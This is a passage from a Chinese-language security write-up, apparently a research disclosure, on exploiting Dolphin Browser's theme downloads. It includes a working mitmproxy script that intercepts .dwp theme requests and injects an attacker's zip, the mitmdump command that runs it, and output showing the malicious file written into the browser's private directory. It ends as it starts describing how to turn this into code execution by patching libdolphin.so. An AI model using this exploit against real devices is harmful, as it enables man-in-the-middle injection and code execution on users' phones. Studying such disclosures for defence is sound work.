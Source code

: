 ```
from libmproxy.protocol.http import HTTPResponse
from netlib.odict import ODictCaseless

def request(context, flow):
    if not flow.request.host =="opsen-static.dolphin-browser.com"  or not flow.request.path.endswith(".dwp"):
        return

    # Build response

    response = HTTPResponse([1, 1], 200, "OK", ODictCaseless([["Content-Type", "application/zip"]]), "yo!") # Inject theme
    # Inject theme
    try:
        with open("Alonso_P.dwp", "r") as f:
            modified = f.read()
            response.content = modified
            response.headers["Content-Length"] = [len(modified)]
            f.close()
    except IOError as e:
        raise e

    # Return response
    #
    flow.reply(response)

```

使用mitmdump运行脚本

```
mitmdump -s inject_evilso.py

```

在手机上使用海豚浏览器，下载并应用主题。观察到mitmdump的输出

```
192.168.8.155 GET https://opsen-static.dolphin-browser.com/resources/themestore/Grassy.dwp
 << 200 OK 210.39kB

```

此时查看海豚浏览器私有目录，压缩包中放置的恶意文件已经写入成功。

![image](http://drops.javaweb.org/uploads/images/d12f06a02a763fe1e42f8154d1ecb33ebf185996.jpg)

3. 漏洞利用——patch so实现代码执行
-----------------------

要将任意文件写升级为代码执行，可以考虑对海豚浏览器二次加载的库进行patch，与Swift输入法漏洞利用过程中patch odex文件所不同，这里选择的是patch上述目录下的libdolphin.so。

首先用ndk编译一个恶意的libdolphin.so
